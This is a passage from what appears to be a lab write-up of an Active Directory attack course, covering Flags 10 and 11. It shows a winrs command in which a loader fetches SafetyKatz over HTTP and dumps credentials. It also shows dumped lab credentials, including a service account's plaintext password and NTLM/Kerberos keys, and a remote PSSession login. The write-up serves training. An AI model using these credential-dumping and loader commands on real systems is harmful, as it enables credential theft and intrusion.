 ```powershell
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565           
```

And now we're able to disable Applocker.

### Flag 10 \[dcorp-mgmt] - Process using svcadmin as service account 🚩

Remembering that we already know credentials for svcadmin user using Safetykatz: `winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::Evasive-keys" "exit"`

we can start a session inserting credentials below:

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```

```powershell
Enter-PSSession -ComputerName dcorp-mgmt -Credential (Get-Credential)
```

and discover the process associated to svcadmin user:

```powershell
Get-Process -IncludeUserName | Where-Object { $_.UserName -match "svcadmin" }
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Flag 11 \[dcorp-mgmt] - NTLM hash of svcadmin account 🚩

As the last point, based on the SafetyKatz output we can see the svcadmin's ntlm hash (rc4\_hmac\_nt)

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
```